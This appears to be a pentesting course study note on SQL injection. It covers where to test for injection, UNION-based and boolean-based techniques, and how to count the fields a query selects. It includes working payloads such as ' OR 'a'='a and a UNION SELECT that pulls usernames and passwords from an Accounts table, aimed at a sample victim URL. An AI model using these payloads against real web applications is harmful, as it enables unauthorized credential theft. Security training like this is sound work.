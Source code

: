 ## SQL

It's a **backend database** to store the data they process

### SQL Injections

SQL Injection(SQLi) attacks allow an unathorized user to **take control over SQL statements** used by a web application

To find SQL injections, we need to check any user input (every input must be tested to conduct a professional pentest):

+ GET parameters
+ POST parameters
+ HTTP Headers
  + User-Agent
  + Cookie
  + Accept

Tests can be:

+ String terminators:` ' and ''`
+ SQL commands: `SELECT, UNION and others`
+ SQL comments: `# or --`


### SQL STATEMENTS

```SQL

SELECT columns1,columns2 FROM table1 WHERE file;
 
SELECT name,description FROM products WHERE ID=9;

```

### UNION example

```SQL
SELECT Name, Description FROM Products WHERE ID='9' UNION SELECT Username,Passwword FROM Accounts;
```

Can also perform a UNION with some *chosen data*

```SQL
SELECT Name, Description FROM Products WHERE ID='9' UNION SELECT 'Example','Data';
```
### VULNERABLE DYNAMIC QUERIES

```SQL
-- This dynamic query expects $id values as a string:
SELECT Name, Description FROM Products WHERE ID='$id'

-- But what if an attacker crafts a $id value which can change the query to something like ' OR 'a'='a 
-- then the query becomes:
SELECT Name, Description FROM Products WHERE ID='' OR 'a'='a';
-- ...which tells the database to select the items by checking two conditions which is always true.

-- An attacker could also exploit the UNION command by supplying the following:
-- ' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a;
-- Thus it changes the original query to:

SELECT Name, Description FROM Products WHERE ID='' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a';
```

### Boolean Based SQLi

Once penentration testers find a way to tell when a condition is true or false, they can ask the database some simple True/False questions:

+ Is the first letter of the username 'a'?
+ Does this database contain three tables?
+ ...

We can use two MySQL functions: `user()` and `substring()`

+ `user()` returns the name of the user currently using the database:
```SQL
select user();
```
+ `substring()` returns a substring of the given argument. It takes 3 parameters:
  + the input string
  + the position of the substring
  + its length
```SQL
select substring('elarnsecurity', 2, 1)
select substring(user(), 1, 1)
```


### UNION BASED SQL Injections

The following payload forces the web application to display the result of the *user()* function on the **output page**:

```sql
' UNION SELECT user(); -- -
```
The query will be like this:
```sql
SELECT Descripion FROM items WHERE id='' UNION SELECT user(); -- -';
```

+ To exploit a SQL injection you first need to know how many fields the vulnerable query selects, you do this by trial and error
+ We know there's an injection by ` ' UNION SELECT null; -- -`, this should display:

`Warning: mysql_fetch_array() expects parameter 1 to be mysql_result, boolean given in /var/www/view.php on line 32`

+ We can try with two fields: `' UNION SELECT null null; -- - ` and three even to confirm that the original query only has two fields
+ Once we know how many fields are in the query it's time to test which fields are part of the output page
+ You can do that by injecting some known values and checking thee results in the output page, as in: `' UNION SELECT 'elsid1', 'elsid2'; -- -`
+ Now we can exploit the injection: 
```
http://victim.site/view.php?id=' UNION SELECT user(), 'elsid2'; -- -`
```
